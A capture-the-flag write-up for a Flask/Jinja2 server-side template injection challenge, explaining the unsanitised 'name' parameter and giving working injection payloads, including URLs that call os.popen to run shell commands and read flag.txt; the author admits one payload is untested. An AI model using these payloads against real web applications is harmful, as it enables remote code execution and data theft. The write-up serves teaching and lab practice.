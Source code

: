 # Why Hello There - SSTI Vulnerability
**Description**: I have created a simple site to host my most favorite stuff. There is an issue with one of the parameters and I'm not sure what to do! Can you get the flag using this parameter?
- *Hints*: Always be sure to sanitize user input!... Even ones that are not always visually obvious at first glance.

## Introduction

Server-Side Template Injection (SSTI) is a vulnerability that allows an attacker to inject malicious templates into a web application, potentially leading to Remote Code Execution (RCE) or information disclosure. SSTI vulnerabilities arise when user input is dynamically inserted into templates and then rendered by the server-side template engine without proper sanitization or validation.

In this challenge, we explore an SSTI vulnerability within a Flask web application. Flask is a popular Python web framework that includes support for Jinja2 templating. Jinja2 is powerful but can be susceptible to SSTI if not properly secured.

## Challenge Overview

The provided source code defines a simple Flask application serving a blog-like website. The application uses the `render_template_string` function from Flask, which dynamically renders templates based on user input. This function is used to customize a greeting message with the visitor's name, which is retrieved from URL parameters.

### Vulnerability Analysis

The critical line in the application is where `render_template_string` is used:

```python
name = request.args.get('name', 'CTF Player')
return render_template_string(f'''
...
<p>Hello {name}! This is a place where I share my thoughts and experiences.</p>
...
''')
```

The `name` parameter from the URL is inserted directly into the template. Since there is no sanitization of the `name` parameter, an attacker can exploit this by injecting a template syntax that can be executed by the server.

### Exploiting SSTI in Flask

To exploit this vulnerability, an attacker can craft a payload that the Jinja2 template engine will execute. Since the challenge specifies that this is a Windows machine, the goal is to read the contents of `flag.txt`.

A common approach to achieve this is to leverage Jinja2's ability to access Python's built-in attributes and functions through the template. An attacker can use this capability to execute arbitrary Python code.

#### Payload to Read `flag.txt`

The payload to exploit this SSTI vulnerability and read the contents of `flag.txt` on a Windows machine might look something like this:

```
{{ ''.__class__.__mro__[2].__subclasses__()[40]('flag.txt').read() }}
```

This payload works by accessing Python's built-in attributes to open and read a file. The steps are as follows:

1. `''.__class__.__mro__[2]` accesses the `object` base class.
2. `__subclasses__()` lists all subclasses of `object`, where one of them is typically the `file` class or a class that can be used to open files.
3. The index `[40]` (which might need adjustment based on the Python environment) is assumed to be the class that can open files.
4. `('flag.txt').read()` attempts to open `flag.txt` and read its contents.

### Conclusion

This challenge demonstrates the critical importance of sanitizing and validating all user inputs, especially when those inputs are used within template engines like Jinja2 in Flask applications. SSTI vulnerabilities can lead to significant security risks, including unauthorized access to sensitive data and system command execution. Always ensure user inputs are handled securely to prevent such vulnerabilities.
note: The code above is not tested, but the payload is something along those lines.

I.e.,
```
https://MACHINE_IP:10000/?name={{ self.__init__.__globals__.__builtins__.__import__('os').popen('cat flag.txt').read() }}
```
OR

```
http://MACHINE_IP:10000/?name={{config.__class__.__init__.__globals__[%27__builtins__%27][%27__import__%27](%27os%27).popen(%27type%20flag.txt%27).read()}}
```
![alt text](image.png)